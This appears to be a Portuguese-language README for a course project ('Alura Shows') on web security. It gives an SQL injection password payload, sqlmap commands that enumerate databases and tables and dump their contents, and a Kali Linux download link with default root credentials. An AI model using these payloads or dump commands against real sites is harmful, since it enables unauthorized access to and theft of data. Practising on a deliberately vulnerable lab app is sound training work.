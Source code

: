 # Projeto Alura Shows!

SQL Injection:
Exemplo de senha: X' or 'a' = 'a

Ferramentas SQL Injection:

SQLMAP: http://sqlmap.org/
Comandos SQLMAP:
sqlmap -u <url>: Analisa a url
sqlmap -u <url> --current-db: Analisa o database
sqlmap -u <url> --tables -D <nome_database>: Analisa as tabelas
sqlmap -u <url> --dump -T <nome_tabela> -D <nome_database>: Traz os resultado das tabelas


VirtualBox: https://www.virtualbox.org/wiki/Downloads

Kali Linyux: https://images.offensive-security.com/virtual-images/kali-linux-2017.3-vbox-amd64.ova
Para se logar no Kali Linux, utilize as credenciais:
-  usuário: root 
-  senha: toor






Index

![index](https://media.giphy.com/media/xT9IgwKKAKMcrhV5Be/giphy.gif)

Admin

![admin](https://media.giphy.com/media/xT9IgKhcbcvAcx4Eec/giphy.gif)

Login

![login](https://media.giphy.com/media/xT9IgO0n4cb311s06Y/giphy.gif)

Blog

![blog](https://media.giphy.com/media/3o7aD52RkT29CAdd1S/giphy.gif)

Registrar

![registrar](https://media.giphy.com/media/3ov9jNDmww9BGZR25q/giphy.gif)
